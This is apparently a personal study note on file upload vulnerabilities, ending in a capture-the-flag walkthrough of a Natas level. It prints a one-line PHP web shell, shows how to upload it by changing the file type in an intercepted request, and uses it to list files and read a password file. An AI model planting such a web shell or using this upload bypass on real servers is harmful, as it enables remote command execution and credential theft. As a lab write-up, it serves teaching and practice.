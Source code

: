 ```yaml
---
tags:
  - web
---
```

> Various web applications allow users to upload files (eg images, music files etc). The uploaded files can create momentous risk if not handled in a secure way. Depending on the how the file is processed and where it is stored the impact of the file upload vulnerability may vary.

There are two types forms of complications here. The first one is with the metadata, like the path and the file name. These are generally provided by the transport, such as HTTP multipart encoding. This data can be used to trap the application into overwriting a critical file or storing the file in a bad location. For example, the attacker can upload a file called index.php in the root folder by upload a malicious file and its filename might look like this “../../../index.php”. So you must validate the metadata extremely carefully before using it. The other type of problem with uploaded data comes from file content.

### Impact
- The attacker can get a web shell and execute various commands, browse system files and browse local resources etc.
- Make a phishing page in the website
- Make a permanent XSS in the website
- Uploaded sensitive files might be accessible by unauthorized people.
- Uploaded files might trigger vulnerabilities in broken libraries/applications on the client side.
- Uploaded files might trigger vulnerabilities in broken libraries/applications on the server side.
- Uploaded files might trigger vulnerabilities in broken real-time monitoring tools.
The impact of this vulnerability is high, a supposed code can be executed in the server context or on the client side. The likelihood of detection for the attacker is high. The prevalence is common. As a result, the severity of this type of vulnerability is high.

### Example
```php
<?php
echo system($_GET["cmd"]);
?>
```

Upload the file and intercept the request using [[Burp Suite]] to change the given format to .php. We can pass the commands through the URL.

![[file_upload_intercept.png]]

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.

Let's try to find the files present in the directory where the image is uploaded by giving `cmd=ls`

![[file_upload_intercept_ls.png]]

we can see various files present in the directory on the screen (say jpg,PHP etc.) uploaded by other users for the challenge.

The password for the next level will be in the folder /etc/natas_webpass/ where natas12 is the file containing the password.

so... 

	.php?cmd=cat  /etc/natas_webpass/natas12

Gives the password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

![[file_upload_intercept_pass.png]]

### Other scripts
* [[Interactive shell php]]